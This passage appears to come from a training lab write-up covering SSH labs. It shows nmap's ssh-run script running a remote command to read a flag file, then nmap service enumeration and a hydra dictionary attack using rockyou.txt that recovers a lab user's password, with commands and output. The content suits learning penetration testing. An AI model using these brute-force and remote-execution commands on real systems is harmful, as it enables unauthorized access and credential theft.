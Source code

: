 - Or use [nmap ssh-run script](https://nmap.org/nsedoc/scripts/ssh-run.html) to run remote command on SSH server

```bash
nmap --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" 192.8.3.3
```

```bash
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: cat /home/student/FLAG
NSE: [ssh-run] Output of command: {FLAG_content}

Nmap scan report for target-1 (192.8.3.3)
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|_    {FLAG_content}\x0D
```

<details><summary>Reveal Flag - /home/student/FLAG is: 🚩</summary></details>

## Lab 2

>  🔬 [SSH Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=527)
>
>  - Target IP: `192.230.83.3`
>  - Detailed `SSH` Enumeration

```bash
ip -br -c a
	eth1@if130414   UP   192.230.83.2/24
```

- Target IP is `192.230.83.3`

```bash
nmap -sV 192.230.83.3
```

```bash
22/tcp open  ssh   OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
```

- Use `hydra` to find *student* user password

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh
```

```bash
[DATA] attacking ssh://192.230.83.3:22/
[STATUS] 180.00 tries/min, 180 tries in 00:01h, 14344223 to do in 1328:11h, 16 active
[22][ssh] host: 192.230.83.3   login: student   password: friend
1 of 1 target successfully completed, 1 valid password found
```
